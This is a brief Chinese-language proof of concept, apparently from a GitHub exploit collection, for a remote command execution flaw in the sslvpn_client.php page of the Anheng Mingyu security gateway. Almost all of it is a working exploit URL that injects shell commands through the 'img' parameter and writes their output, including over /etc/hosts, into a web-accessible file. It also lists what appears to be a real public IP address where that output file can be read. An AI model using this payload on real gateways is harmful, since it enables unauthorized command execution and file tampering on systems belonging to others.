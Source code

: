 # 安恒明御安全网关 sslvpn_client.php 远程代码执行漏洞

    ## poc

```
https://localhost/sslvpn/sslvpn_client.php?client=logoImg&img=6drcdfs34c1h /tmp || ls |tee /etc/hosts /usr/local/webui/webui/images/basic/login/main_logo21.txt || ls
```



http://221.224.214.186:5555/webui/images/basic/login/main_logo21.txt
